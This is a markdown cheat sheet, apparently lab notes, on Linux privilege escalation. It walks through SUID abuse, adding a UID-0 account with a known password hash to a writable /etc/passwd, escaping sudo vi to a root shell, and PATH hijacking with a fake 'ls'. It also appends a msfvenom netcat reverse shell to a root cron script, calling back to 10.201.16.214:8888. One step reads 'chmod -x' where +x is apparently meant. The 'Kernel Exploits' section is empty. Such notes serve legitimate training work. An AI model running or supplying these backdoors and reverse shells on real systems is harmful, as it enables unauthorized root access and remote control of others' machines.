# Linux Privilege Escalation

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Initial checklist](#initial-checklist)
- [SUID/GUID](#suidguid)
  - [Find the exploitable binary(ies)](#find-the-exploitable-binaryies)
  - [Select options and validate permissions](#select-options-and-validate-permissions)
  - [Run the target binary](#run-the-target-binary)
- [Writeable /etc/passwd files](#writeable-etcpasswd-files)
  - [Entry format](#entry-format)
  - [Identify a potential user to exploit](#identify-a-potential-user-to-exploit)
  - [Generate compliant password hash](#generate-compliant-password-hash)
  - [Identify shell options](#identify-shell-options)
  - [Generate the new passwd file entry for a user that will be root](#generate-the-new-passwd-file-entry-for-a-user-that-will-be-root)
  - [Append the entry to /etc/passwd](#append-the-entry-to-etcpasswd)
  - [Switch user](#switch-user)
- [Escaping the Vi editor](#escaping-the-vi-editor)
  - [Identify vulnerable binaries](#identify-vulnerable-binaries)
  - [Start the vulnerable binary](#start-the-vulnerable-binary)
  - [Use Vi command mode to open a shell with root privileges](#use-vi-command-mode-to-open-a-shell-with-root-privileges)
- [Exploit Crontab](#exploit-crontab)
  - [Identify cronjobs running with elevated privileges](#identify-cronjobs-running-with-elevated-privileges)
  - [Use Metasploit to generate a reverse shell and place into the autoscript.sh](#use-metasploit-to-generate-a-reverse-shell-and-place-into-the-autoscriptsh)
  - [Append the exploit to the autoscript.sh file](#append-the-exploit-to-the-autoscriptsh-file)
  - [Start a netcat listener on the Attacking device](#start-a-netcat-listener-on-the-attacking-device)
  - [Wait for the connection](#wait-for-the-connection)
- [Exploiting the PATH variable](#exploiting-the-path-variable)
  - [Show the current user's PATH](#show-the-current-users-path)
  - [Build an imitation binary](#build-an-imitation-binary)
  - [Alter the PATH variable](#alter-the-path-variable)
  - [Run the script file](#run-the-script-file)
- [Kernel Exploits](#kernel-exploits)

## Initial checklist

1. Determining the kernel of the machine (kernel exploitation such as Dirtyc0w)
2. Locating other services running or applications installed that may be abusable (SUID & out of date software)
3. Looking for automated scripts like backup scripts (exploiting crontabs)
4. Credentials (user accounts, application config files..)
5. Mis-configured file and directory permissions  

## SUID/GUID  

### Find the exploitable binary(ies)  

`find / -perm -u=s -type f 2>/dev/null`



### Select options and validate permissions

`:> ls -alh /home/user3/shell`



### Run the target binary

`:> ./shell`

Results in a root prompt  



## Writeable /etc/passwd files  

[Editing /etc/passwd for Privilege Escalation](hackingarticles.in/editing-etc-passwd-file-for-privilege-escalation)  

### Entry format  

[username] : [password] : [userID] : [groupID] : [Info] : [home-directory] : [path-to-shell]

### Identify a potential user to exploit

`:> cat /etc/passwd`

user7 has a groupid of zero, the root group

Switch to user7

`:> su user7`



### Generate compliant password hash

`:> openssl passwd -1 -salt new 123`  

  

### Identify shell options  

`:> cat /etc/shells`  

  

### Generate the new passwd file entry for a user that will be root

`new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash`

### Append the entry to /etc/passwd

`:> echo 'new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash' >> /etc/passwd`

### Switch user

`:> su new` and enter the password  

  

## Escaping the Vi editor  

### Identify vulnerable binaries

`:> sudo -l`



### Start the vulnerable binary

`:> sudo vi`

### Use Vi command mode to open a shell with root privileges  

`:> !sh`

  

## Exploit Crontab  

### Identify cronjobs running with elevated privileges

`:> cat /etc/crontab`  



'autoscript.sh' runs with root privileges

Open the file  

`:> nano /home/user4/Desktop/autoscript.sh`

  



### Use Metasploit to generate a reverse shell and place into the autoscript.sh  

`:> msfvenom -p cmd/unix/reverse_netcat lhost=<attacker IP> lport=8888 R`  

`mkfifo /tmp/yphto; nc 10.201.16.214 8888 0</tmp/yphto | /bin/sh >/tmp/yphto 2>&1; rm /tmp/`  

### Append the exploit to the autoscript.sh file

`:> echo 'mkfifo /tmp/yphto; nc 10.201.16.214 8888 0</tmp/yphto | /bin/sh >/tmp/yphto 2>&1; rm /tmp/' >> /home/user4/Desktop/autoscript.sh`   

### Start a netcat listener on the Attacking device  

`:> nc -lvnp 8888`

### Wait for the connection

  

## Exploiting the PATH variable

### Show the current user's PATH  

`:> echo $PATH`

  

### Build an imitation binary  

`:> echo '/bin/bash' > /tmp/ls`  
`:> chmod -x /tmp/ls`  

When this binary is called, it will open a bash shell, not list the files in the current directory  

  

### Alter the PATH variable  

`:> export PATH=/tmp:$PATH`  

Add the /tmp directory to the PATH  

When a users calls "ls" the system will see the "ls" in the tmp folder and execute the '/bin/bash' command to open a shell, ratheer than list the contents of the current directory.  

  

### Run the script file  

Observe the script binary has the SUID set. Any command called by the script runs with the owner's (root) privileges.  



`:> cd ~`
`:> ./script.sh`

Achieve root shell

  

## Kernel Exploits
